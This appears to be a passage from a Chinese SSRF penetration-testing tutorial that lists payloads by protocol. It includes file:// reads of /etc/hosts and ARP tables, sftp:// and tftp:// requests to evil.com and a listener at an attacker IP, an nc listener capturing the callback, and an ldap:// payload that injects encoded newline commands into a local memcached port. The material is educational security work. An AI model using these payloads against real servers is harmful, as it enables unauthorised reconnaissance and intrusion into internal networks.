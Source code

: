 

### file

尝试配合 file 协议来获取存在 SSRF 漏洞的本机内网 IP 地址信息，确认当前资产的网段信息

```
file:///etc/hosts
```

还可以尝试读取 /proc/net/arp 或者 /etc/network/interfaces 来判断当前机器的网络情况

```
file:///proc/net/arp
file:///etc/network/interfaces
```



### SFTP

sftp代表SSH文件传输协议，通过sftp协议获取SSH相关信息

```
ssrf.php?url=sftp://evil.com:11111/
```

kali监听4444端口等待回显
![](https://img-blog.csdnimg.cn/img_convert/0c262dce087f05e47680c295daff2fe1.png)
在存在SSRF处输入Payload

```
sftp://192.168.3.14:4444
```

![](https://img-blog.csdnimg.cn/img_convert/408c6b04ab66d1265e614b390e1f0ee3.png)
![](https://img-blog.csdnimg.cn/img_convert/278afa38f58312f3a2d1d72c5fe7a891.png)

### TFTP

普通文件传输协议用于，在 UDP 上工作

```
ssrf.php?url=tftp://evil.com:1/TESTUDPPACKET
```

```
http://example.com/ssrf.php?url=tftp://evil.com:1337/TESTUDPPACKET 
evil.com:# nc -lvup 1337
Listening on [0.0.0.0] (family 0, port1337)TESTUDPPACKEToctettsize0blksize512timeout3
```



### LDAP

ldap://或ldaps:// 或ldapi:// 轻量级目录访问协议。它是一种在IP网络上用于管理和访问分布式目录信息服务的应用协议。

```
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
```
